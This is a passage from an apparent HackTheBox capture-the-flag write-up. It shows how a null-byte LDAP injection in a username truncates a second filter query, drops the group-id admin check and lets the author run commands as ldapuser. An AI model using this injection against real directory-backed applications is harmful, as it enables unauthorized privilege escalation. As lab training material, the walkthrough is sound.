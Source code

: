 So that will work fine to get me in as ldapuser.

Next, it will submit that same username back to the second query to check for
admin. That becomes:

    
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)))%00)
        (|
          (gidNumber=4)
          (gidNumber=0)
        )
      )
      (pager=*)
    )
    

Again, truncating at the null:

    
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
      )
    )
    

I’ve effectively removed the check for the group id number to be 0 or 4, and
that’s how I can now run commands.

[](/2019/07/20/htb-ctf.html)

